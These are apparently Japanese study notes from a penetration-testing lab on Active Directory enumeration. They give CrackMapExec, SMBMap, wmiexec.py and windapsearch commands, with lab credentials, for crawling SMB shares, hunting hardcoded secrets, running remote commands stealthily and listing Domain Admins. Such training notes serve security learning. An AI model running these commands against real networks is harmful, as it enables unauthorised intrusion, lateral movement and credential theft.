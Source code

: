 ユーザーセッション調査ツール
- **BloodHound** や **PowerView** などのツールでユーザーセッションを視覚的に把握可能。
- **CME** は、より絞り込んだターゲットの列挙やセッション調査に有効。

ドメインコントローラーの 共有フォルダ列挙
```sh
sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --shares
```
- 読み取りアクセス可能な複数の共有フォルダを確認できて、さらに調査したい

- 各共有フォルダ内をくまなく探索（スパイダー）してファイルを探す
- spider_plus モジュールを使用することで、対象ホスト内の読み取り可能な全ての共有フォルダをクロールし、読み取り可能なファイルの一覧を取得できる
```shell
sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M spider_plus --share 'Department Shares'
```
- Department Shares に対して spider（クローリング）を実行した
- 処理が完了すると、CME は結果を JSON ファイルとして `/tmp/cme_spider_plus/<ホストのIPアドレス>`保存する
- さらに深掘りしたい場合は、それらのファイルを**実際に取得して内容を確認する**ことで、ハードコードされた認証情報やその他の**機密情報を発見できる可能性**がある

### SMBMap
- SMBMap は、Linux 攻撃マシンから SMB 共有を列挙するのに最適なツール
- アクセス可能であれば、共有フォルダの一覧、アクセス権限、内容の確認などが可能
- 一度アクセスできれば、**ファイルのダウンロードやアップロード、リモートコマンドの実行**もできる
自分のユーザーがどの共有にアクセスできるか、またそのアクセス権限をするコマンド
```sh
smbmap -u forend -p Klmcargo2 -d INLANEFREIGHT.LOCAL -H 172.16.5.5
```

すべてのディレクトリ（フォルダ）の構造を再帰的に一覧表示
```sh
smbmap -u forend -p Klmcargo2 -d INLANEFREIGHT.LOCAL -H 172.16.5.5 -R 'Department Shares' --dir-only
```

### wmiexec.py
- WMI（Windows Management Instrumentation）経由でコマンドを実行
- セミインタラクティブなシェルを提供
- コマンドを1行ずつ実行する形式
- ステルス性の高いツール
- 対象ホストにファイルや実行ファイルをドロップしない
- 他のツールよりも生成されるログが少ない
- 実行ユーザーは ログインに使ったローカル管理者アカウント
- 例：SYSTEM に比べて目立ちにくい
- 検出リスク
	- ステルスとはいえ、現代のアンチウイルスやEDR製品には検出される可能性が高い
```sh
wget https://raw.githubusercontent.com/fortra/impacket/refs/heads/master/examples/wmiexec.py
wmiexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.5  
```

### Windapsearch
- LDAPクエリでAD情報を列挙するPythonツール
```shell-session
wget https://raw.githubusercontent.com/ropnop/windapsearch/refs/heads/master/windapsearch.py
python3 windapsearch.py --dc-ip 172.16.5.5 -u forend@inlanefreight.local -p Klmcargo2 --da
```
- `--da`: Domain Admins を列挙
- `-PU`: ネストも含む特権ユーザー列挙
- 過剰権限や潜在的な攻撃対象を発見するのに有用
